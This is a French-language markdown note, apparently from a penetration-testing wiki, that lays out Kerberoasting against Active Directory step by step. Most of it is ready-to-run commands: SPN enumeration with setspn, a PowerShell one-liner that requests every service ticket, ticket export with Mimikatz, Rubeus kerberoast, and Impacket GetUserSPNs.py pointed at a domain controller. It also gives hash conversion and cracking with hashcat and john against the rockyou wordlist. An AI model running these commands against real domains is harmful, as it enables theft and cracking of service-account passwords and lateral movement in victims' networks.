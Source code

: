 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sources

- https://dl.packetstormsecurity.net/papers/general/kerberoasting.pdf

## Objectifs
- Obtenir une liste de compte utilisateurs disposant d'un SPN
- Collecter les TGS associés à ces SPNs (chiffrés en RC4)
- Tenter de cracker les mots de passe des comptes utilisateurs à partir des TGS récupérés (qui sont chiffrés avec les hash de comptes utilisateurs respectifs)

## Méthodologie
### Locale

#### Manuelle

##### Récupérer un TGS

###### Liste des comptes avec leurs SPNs
```shell
# Enumérer tous les SPNs
setspn.exe -q */*
```

###### Demande d'un TGS

```powershell
# Demander un TGS pour le SPN désiré (compte utilisateur)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MyUSERWithSPN/srvtest.domain.local"
```

###### Demander tous les TGS existants

Attention, cela ne sera pas du tout furtif !

```powershell
# Demander tous les TGS possibles
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

##### Extraire le ou les Tickets (TGS)

Une fois les TGS générés par le KDC et stockés dans le système d'exploitation, on peut les récupérer via `Mimikatz`. 

```
mimikatz # base64 /out:true    <==== si on veut les transférer par copier / coller par exemple
mimikatz # base64 /out:true    <==== si on veut générer des fichiers .kirbi

mimikatz # kerberos::list /export  
```

```shell
# conversion depuis base64
echo "<base64 blob>" |  tr -d \\n | base64 -d > myUser.kirbi
# Extraction du hash pour l'utiliser avec john / hashcat
kirbi2john.py myUser.kirbi  # génère un fichier crack_file
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > myUser_tgs_hashcat
# Cassage avec hashcat
hashcat -m 13100 myUser_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

#### Utiliser Rubeus.exe

Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs
- 
./Rubeus.exe kerberoast /outfile:hash.txt


#### Cracker les hash :

hashcat -m 13100 --force -a 0 hash.txt dict.txt

### Distante

#### Impacket

##### Utiliser GetUserSPNs.py
 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```

##### Cracker les hash (bruteforce)

```
john --wordlist=/path/to/rockyou.txt hashes.txt
```
[[_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
